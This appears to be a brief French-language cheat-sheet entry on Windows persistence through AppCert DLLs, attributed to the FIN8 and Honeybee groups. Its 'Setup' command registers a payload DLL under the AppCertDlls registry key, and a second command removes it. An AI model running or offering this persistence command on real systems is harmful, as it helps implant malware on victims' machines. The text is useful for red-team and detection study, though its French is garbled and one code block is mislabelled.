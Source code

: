 
> [!NOTE] FIN8, Honeybee

AppCert DLLs est charger durant la premier appele de tout fonction `Win32` qui est responsable des requetes des processus.

Logon et Token


Setup:

```c
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\AppCertDlls" /V "AppCert" /T REG_EXPAND_SZ /D "c:\pers\payload.dll" /F
```

Removal:

```http
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\AppCertDlls" /V "AppCert" /F
```